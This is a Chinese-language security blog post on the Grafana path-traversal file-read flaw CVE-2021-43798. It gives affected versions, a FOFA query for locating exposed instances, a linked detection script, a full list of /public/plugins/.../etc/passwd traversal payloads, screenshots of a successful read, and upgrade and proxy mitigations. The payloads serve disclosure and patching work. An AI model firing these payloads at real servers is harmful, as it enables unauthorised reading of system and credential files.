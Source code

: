 ```yaml
---
title: Grafana文件读取漏洞（CVE-2021-43798）
comments: true
tags:
 - Grafana
 - cve
categories: cve
keywords: Grafana
top_img: https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-4.jpg
cover: https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-4.jpg
abbrlink: f76a2b1
date: 2021-12-20 16:25:00
---
```


# Grafana文件读取漏洞（CVE-2021-43798）

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。2021年12月6日，国外安全研究人员披露Grafana中某些接口在提供静态文件时，攻击者通过构造恶意请求，可造成目录遍历，读取系统上的文件。

## 风险等级

高危

## 影响版本

Grafana 8.x 系列

## 资产确定

```fofa
app="grafana"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-1.jpg)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-4.jpg)

## 漏洞检测

**检测脚本**

[https://github.com/j-jasson/CVE-2021-43798-grafana_fileread](https://github.com/j-jasson/CVE-2021-43798-grafana_fileread)

**plugins**

```payload
text
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
```

**payload**

```payload
/public/plugins/alertlist/../../../../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../../../../etc/passwd
/public/plugins/stackdriver/../../../../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../../../../etc/passwd
```

**开始检测**

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-2.png)

**验证，成功读取文件。**

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Grafana-3.png)

**修复方案**

v8.0.0-beta1 和 v8.3.0 之间的所有安装都应尽快升级。

如果无法升级，在 Grafana 前运行反向代理来规范化请求的 PATH 将缓解该漏洞。例如，envoy 中的normalize_path设置。
